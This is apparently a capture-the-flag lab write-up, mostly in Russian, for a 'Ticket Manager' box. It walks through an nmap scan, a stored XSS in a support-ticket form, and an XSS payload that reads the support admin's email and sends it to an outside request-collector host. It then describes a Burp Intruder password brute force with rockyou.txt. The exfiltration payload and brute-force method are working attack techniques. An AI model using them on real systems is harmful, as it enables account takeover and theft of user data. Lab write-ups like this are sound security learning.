








# Write-up: Ticket Manager (XSS → Account Takeover)

## Recon

Начинаем с базового сканирования:

```bash
sudo nmap -sS -sV -sC <TARGET-IP>
```

Результат:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

На веб-сервере встречаем форму регистрации и входа. Регистрируем свой аккаунт:



В личном кабинете можно создать тикет для поддержки:



Создавая тикет, замечаем, что введённый текст попадает прямо в HTML-код страницы:



Это позволяет проверить XSS:

```html
</textarea><script>alert(1)</script><textarea>
```



XSS сработал — двигаемся дальше.

## Кража email через XSS

Используем **requestrepo.com**, чтобы получить обратный запрос со стороны ЛК техподдержки и вытащить email администратора.

Payload:

```html
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "0").replace(".", "x").trim();
new Image().src = "http://" + email + ".SUB_FROM_SITE";
</script><textarea>
```

 **requestrepo.com**:



Получаем входящий запрос:



Email техподдержки:

```text
adminaccount@itsupport.thm
```

## Подбор пароля

Берём запрос логина в Burp Suite и отправляем его в Intruder. В качестве словаря использую `rockyou.txt`.

Получаем запрос с кодом `302` — успешный вход:



## Флаг

Заходим в аккаунт администратора, открываем первый тикет и забираем флаг:

